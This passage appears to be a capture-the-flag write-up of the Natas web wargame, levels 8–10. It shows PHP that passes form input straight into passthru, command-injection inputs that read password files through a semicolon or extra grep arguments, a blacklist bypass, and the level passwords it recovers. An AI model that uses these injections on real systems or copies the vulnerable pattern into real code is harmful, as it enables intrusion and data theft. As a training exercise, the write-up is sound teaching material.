 Performing this process gives `oubWYf2kBq`
```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## Level 9

Level 9 has a form that takes an input and searches a dictionary file for matches.
```
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```
Looks like it uses the very exploitable php `passthru` function to construct a bash command.

In bash a semicolon allows us to sequence commands. If we feed `; cat /etc/natas_webpass/natas10` we have Remote Code Execution and get the flag.

```
Output:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

African
Africans
...
```

## Level 10

This is where the fun begins. Level 10 is the same as Level 9, except now we get input validation.

```php
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
```
Notably we still have `#` which is the bash comment symbol. Although it turns out it isn't necessary for this level. `grep` accepts multiple files as input so we just have to feed it a wildcard string to match and our password file like `.* /etc/natas_webpass/natas11`
```
.htaccess:AuthType Basic
```